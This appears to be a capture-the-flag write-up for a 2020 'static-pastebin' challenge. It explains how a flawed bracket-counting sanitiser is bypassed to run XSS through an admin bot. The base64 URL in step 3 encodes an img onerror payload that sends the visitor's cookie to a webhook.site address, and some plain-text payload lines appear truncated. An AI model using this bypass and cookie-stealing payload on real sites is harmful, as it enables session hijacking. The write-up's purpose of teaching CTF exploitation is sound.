



# static-pastebin

## Problem

```
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

We are given a link to 2 different sites, the [pastebin site](./images/staticpaste1.PNG) and an [admin bot website](./images/staticpaste2.PNG)
which visits any URL it is given.

Immediately I thought of reflected XSS as this was similar to a challenge in the recent WeCTF. I had never attempted 
XSS in a practical context before, so this was a good opportunity to learn. 

I tried submitting `<script>alert(123)</script>` to the pastebin site to see if basic XSS could be exploited.
However it didn't return anything. I checked the `script.js` of the pastebin page post-submission and found some [sanitisation](./files/static-pastebin/script.js)
involved:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

The function does an improper sanitisation, by counting the tag brackets `<>` in the input. This can easily be bypassed by  
prepending a close angle bracket `>` to your input thereby setting `brackets` to -1 initially. Any subsequent content within 
enclosed tags will be processed, allowing us to execute XSS payload. We test it out by inputting the code below to the pastebin site:
```javascript
>alert(123)</script>></img>
```



Another important observation from the pastebin site: it takes the submitted input, encodes it with Base64 and appends
it to the back of the URL `https://static-pastebin.2020.redpwnc.tf/paste/#`.  For example, by submitting `hello` on the 
pastebin site, the URL returned is `https://static-pastebin.2020.redpwnc.tf/paste/#aGVsbG8K`. `aGVsbG8K` is the base64
 encoding of `hello`.




So our plan is:
1. Set up a device to capture and read requests.
    * We can use [Webhook.site](https://webhook.site/), an API to intercept requests and view their data upon certain events
      being triggered.
      
2. Craft the XSS payload.
    ```javascript
    ></img>
    ```
    * This code will attempt to load an image from the `/` filepath where no image exists. This invokes an error, triggering 
    the `onerror` code execution, which sends a request to our webhook site from (1) with the document cookie as a URL slug.
    
3. Base64 encode the payload in (2), append it to back of the pastebin site post-submission URL.
    
    ```
    https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iamF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMTdlYTAzZmQtOWJkZi00YzgwLWE5YjEtOGU0ZWU4OGNkNzJmP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
    ```
4. Input the URL in (3) to the [admin bot site](images/staticpaste4.PNG).
    
This should send a request to our webhook site which captures to displays the data, including the flag.



**Flag**: `flag{54n1t1z4t10n_k1nd4_h4rd}`